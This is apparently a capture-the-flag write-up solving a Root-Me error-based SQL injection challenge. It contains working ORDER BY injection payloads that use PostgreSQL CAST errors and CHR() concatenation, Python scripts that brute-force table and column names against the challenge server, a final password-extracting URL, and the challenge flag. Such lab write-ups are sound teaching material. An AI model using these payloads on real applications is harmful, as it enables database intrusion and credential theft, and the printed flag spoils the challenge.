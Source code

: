 # SQL injection - Error

**Title**: Exploiting SQL error

**Point:** 40 Points

**Description:** Retrieve administrator’s password.

## Solution:

First, we have to find the SQLi point. Try `1'` in login form but it's not worked. Access **Contents**, we can see the URL `?action=contents&order=ASC` with 2 parameters `action` and `order`. The possible SQLi point is in `order`.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273512-430dad81-59d4-42d6-8d9c-ad88ed5081f7.png"/> </p>

Try simple payload:

```
123' or 1=1 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273597-484fa0ff-2df0-4a09-af08-71046a69f741.png"/> </p>

We can see  full query in this chall and find out our input is appended to `order by page `. With this injecting position, we can't use any directly keyword like `UNION`, `WHERE`, `AND`, `OR` ... because **order by** is often a keyword at the end of the query. With some samples, we can find out the **filter** in back-end server.

Filter: `;`

We can confirm this is an order-by injection with:

```
ASC 
```
**NOTE: With some testing like using unique function like BINARY_CHECKSUM(MySQL), sqlite_verion(SQLite), ... and combine with error message format. We can easily detect this site use PostgreSQL**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276600-7a6e1798-3548-4db4-b816-526c57061b6a.png"/> </p>


[Reference the exploitation](https://portswigger.net/support/sql-injection-in-the-query-structure). To retrieve administrator’s password, we will take advantage of `CAST` function. This function's work is just simply trying to convert string to a specified type. For example, `CAST('123' as int)` will return `123`. But `CAST('khangtictoc' as int)` will return error message.

**NOTE: With MySQL, if CAST doesn't success. It will return '0'**

Construct payload using `CAST()` and put into the second parameter in `ORDER BY`. Use a query for returning the result when error happens when `CAST()` is triggered. Beside, `CAST()` only have 1 value, make sure our query return 1 rows

In PostgreSQL, there're 2 worth-mention table is `information_schema.tables` and `information_schema.columns` saving information for each database. We would try to retrieve columns's info. Payload:

```
asc, cast((select table_name from information_schema.talbes limit 1 offset 0) as int)
```

**NOTE: limit the number of rows by using limit. PostgreSQL don't allow to use any syntax like `LIMIT 1, 2`. We have to use keyword `OFFSET` in our query.**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275468-1e7b91a8-b20f-4bfb-84b1-bf4be974da5b.png"/> </p>

We have successfully retrieve the first table `m3mbr35t4bl3` in table. The point is, we just only get 1 values and we have to change the offset to get next value. So another way to do this quick is use **brute-force**. Use python code:

```python
import requests 
i = 0 
while(True):
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select table_name from information_schema.tables limit 1 offset " + str(i) + ") as int)")
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

This loop runs forever until we find a "doubting" table. After running a period of time, I realize the first table `m3mbr35t4bl3` is the correct table all the time (~.~) and other tables belong to system.

Try similar payload to retrieve all the **columns** in `information_schema.columns` which has our target table `m3mbr35t4bl3`

```
asc, cast((select column_name from information_schema.columns where table_name='m3mbr35t4bl3' limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275810-71b2800b-ca01-4a7c-81f2-ab61cc7506d4.png"/> </p>

This make me silent for a long time. After searching , I've known that **PostgreSQL** doesn't allow string like `'m3mbr35t4bl3'` as parameter - this will alert error syntax; also if we use double quote `"m3mbr35t4bl3"` instead, it would consider this `m3mbr35t4bl3` as a identifier. So we can use some method to construct a string like using `CHR()` function with ascii code to get the characters and combine with `||` to concat those into a string. Use this python code for quick generating: 

```python 
a = "m3mbr35t4bl3"
result = ""
for i in range (len(a)):
    if i != len(a) - 1:
        result += "chr(" + str(ord(a[i])) + ") || "
    else:
        result += "chr(" + str(ord(a[i])) + ")"
print(result)
```

Output:

```
chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51)
```

Create payload again, replace `'m3mbr35t4bl3'` with the output above:

```
asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276020-77f35d09-9804-4172-90a2-c76d1c472d73.png"/> </p>

It's worked !!! Change the query request in python code to brute-force all columns

```python
import requests 

i = 0 
while(True): 
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset " + str(i) + ") as int)")
        
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276192-508fd42e-9ce3-4dab-ac1d-80b9ddf68ee1.png"/> </p>


There's only 4 values returned. As we can see, `us3rn4m3_c0l` and `p455w0rd_c0l` is 2 columns that may contain 'username' and 'password'. Use 2 payload to retrieve each pair (username - password) to ensure the correct password.

```
asc, cast((select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276342-29a23d49-1915-46c8-ae23-2a6f7e1188e8.png"/> </p>

```
asc, cast((select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as int) 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276379-f3ead8b2-ee7b-43fd-8509-776cf375548b.png"/> </p>

**NOTE: This challenge is great ! They often put our target value returned in the first row. If `username` or `password` in the middle or at the end of the table. We will need to brute-force again.**

Final payload http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc,%20cast((select%20p455w0rd_c0l%20from%20m3mbr35t4bl3%20limit%201%20offset%200)%20as%20int)

Code Python used: [Brute-force](Brute-force.py) and [Generating string](Generating_string.py)

Flag: **1a2BdKT5DIx3qxQN3UaC**
